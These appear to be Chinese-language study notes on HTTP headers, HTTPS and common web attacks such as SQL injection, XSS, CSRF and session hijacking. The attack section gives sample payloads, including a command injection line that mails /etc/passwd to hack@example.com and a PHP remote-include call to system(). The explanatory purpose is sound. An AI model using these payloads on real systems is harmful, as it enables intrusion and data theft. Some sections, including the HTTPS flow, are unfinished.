## HTTP 首部

### 通用首部
- Cache-Control:
  缓存控制，有多个参数， no-cache, public, private, max-age 等
  
- Connection:
  1. 控制不再转发给代理的首部字段
  > 控制代理服务器不再转发的 Header，如 
  Connection: Upgrade, Upgrade:... 代理服务器不再转发 Upgrade 这个 header
  2. 管道持久连接
  ```
  Connection: keep-alive   
  Keep-Alive: timeout=10, max=500
  ....
  Connection: close
  ```
  
- Date:
  创建 HTTP 报文创建的时间和日期
    

### 请求首部
- If-Modified-Since: 2021-01-01
  用于判断客户端或者代理服务器本地的资源是否有效，服务器的资源是否更新过，
  如果没有更新过，则返回 304 Not Modified. 否则服务器返回最新的资源。
  
- If-Unmodified-Since
  与 If-Modified-Since 相反。
  如果资源在该时间后已更新，则响应 412 Precondition Failed
 
- If-None-Match: *
  传递的参数为之前的请求响应的 Etag，再次请求时，如果请求的服务器资源（如 html 文件）有变化，
  则该资源的 ETag 也会变化，两者不相等，就会响应新的资源。常用于使用 GET 或者 HEAD 来更新资源。
  如果两者匹配，则返回 304 Not Modified
  
 该 Header 与 If-Modified-Since 类似
  
- If-Match: 123456
  与 If-None-Match 相反。
  如果 ETag 与资源不匹配，则响应 412 Precondition Failed
- If-Range: 123456
  范围条件，与 Range 一起使用. If-Range 传 ETag 的值，Range: bytes=5001-10000. 如果 请求资源的 ETag 和
  请求中的 ETag 参数一致，表示资源没有更改，响应该范围值，200 OK。不一致则表示资源已修改，需响应完整的资源, 
  响应：206 Partial Content, Content-Range: bytes 5001-10000/10000, Content-Length: 5000。
  
- Max-Forwards
  最大通过转发的次数，每经过一层减 1，可以用于追踪请求传输路径，跟踪通信状况
  
- Range:
  范围请求，成功处理请求后响应 206 Partial Content；无法处理该范围请求时响应 200 OK 及全部资源。
  
- User-Agent:
  浏览器信息及用户代理信息等
  
### 响应首部
- Accept-Ranges
  服务器告知客户端，服务器是否能处理范围请求，Accept-Ranges: bytes 可以处理请求，
  Accept-Ranges: none 表示不可以处理范围请求。
  
- Age
  服务器告知客户端，源服务器创建响应了多久，或者缓存资源...
      
- ETag
  实体资源的唯一标识，用于缓存。强ETag: 资源的任何细微的改变都会改变ETag,
  弱ETag: 资源发生根本性改变，才会生成新的ETag, 此时ETag: W/"abc111..."
  
- Location:
  用于告知客户端，资源位置已变更，302 Found, Location: http://www.baidu.com/aaa,
  浏览器会尝试访问该 URI

- Server:
  访问的服务器的信息，如 Apache/nginx
  
- 更多首部字段：Proxy-Authenticate，Retry-After, Vary, WWW-Authenticate

### 实体首部
- Allow:
  服务器响应告知客户端，服务器支持请求的方法，如果客户端请求使用了不支持的方法，
  那么会响应 405 Method Not Allowed
  
- Content-Encoding:
  服务器告知客户端，响应使用的内容编码，gzip, compress, deflate, identity
  
- Content-Type: application/json; ....
- Content-xxx: 更多 Content- 相关的首部，Content-Length 等。

## HTTPS
SSL （Security Socket Layer）和 TLS 一起使用

流程：CA机构发放证书，证书内含有Web服务器的认证公钥，浏览器自带有该CA机构的公钥，
用于验证该证书的真实性，Web服务器保存认证公钥和私钥。
1. 客户端请求 web 服务器，

## HTTP 版本区别
2.0 速度更快，使用了新的技术，速度更快，部分解决了连接保持的问题？


## Web 攻击
### 主动攻击
- SQL 注入攻击， 如 name='admin or 1=1 --'
  > 通过传入特定的 SQL 语句，以破坏 SQL 语句的结构，构造成开发者意想不到的执行语句
-  OS 命令注入攻击
  > 在执行 OS 命令的地方，传入指定的命令，攻击者通过传入 ; cat /etc/passwd | mail hack@example.com
把passwd的输出用邮件发送到   hack@example.com, 类似于 SQL 注入的执行原理
  
### 被动攻击

- 跨站脚本攻击 (Cross Site Script, XSS)
  > 跨站脚本攻击是一种被动攻击，通过在服务端存入特定的 html 标签或 script，在其他用户访问网站
 时，执行该特定脚本，以达到攻击目的。如劫持
  
- HTTP 首部注入攻击
  - 方式：HTTP 响应截断攻击
  
- 邮件首部注入攻击
  

- 目录遍历攻击
  > 原因：主要是 ../ 找到上级目录，可能会找到 /etc/passed 等绝对路径
  
  > 解决方法：关闭指定对任意文件名的访问权限

- 远程文件包含漏洞
  - 这主要是 PHP 的漏洞，攻击者 http://xxx.com/test.php?mod=news.php, 把mod.php替换成url文件,  服务器端
  test.php  <?php include($_GET['mod']) ?> ，
  就可以注入远程文件，执行相应的命令，如 攻击者URL文件： <?php system('ls') ?>
  
  
### 因设置或设计上的缺陷引发的安全漏洞  
- 强制浏览
  > 通过 URL 的文件名，推测下一个文件名
- 不正确的错误消息处理
  > 不应该抛出太过于详细的信息，敏感信息
- 开发重定向  
  > 重定向参数写在了 URL 上

  
### 因会话管理疏忽引发的安全漏洞
- 会话劫持（Session Hijack）
  > 会话劫持是指攻击者拿到了用户的会话ID，并伪装成该用户。（猜测会话ID，XSS，会话固定攻击（Session Fixation） 强行获取会话 ID0等）
-  会话固定攻击
  > 攻击者访问服务器，获取会话ID，并给用户设置陷阱，强制用户使用该会话ID进行认证，预估用户已登录后，使用该会话ID登录。
  Session Adoption
  Session Adoption 是指 PHP 或 ASP.NET 能够接收处理未知会话 ID
  的功能。
  
- 跨站请求伪造
  > 在用户保持登录状态的情况下，攻击者在其他网站留下攻击陷阱，用户触发该陷阱后，
  攻击者可以使用用户的会话信息访问已认证的网站，伪造用户请求。
  常用的解决方法：请求referer校验，客户端CSRF token 校验
  
###  其他安全漏洞
- 密码破解
  > 密码库试错（常用密码字典），
  密码穷举（穷举所有可能），
  彩虹表（常用密码的 md5 映射表等），
  加密密码破解，
  SQL注入攻击逃避认证，
  跨站脚本攻击窃取密码信息
  
- 点击劫持
  > 用户点击按钮，实际是点击了透明的 iframe
- DoS攻击
  > 集中发起过量请求，导致资源耗尽，服务停滞，或通过攻击安全漏洞使服务停止
- 后门程序  
  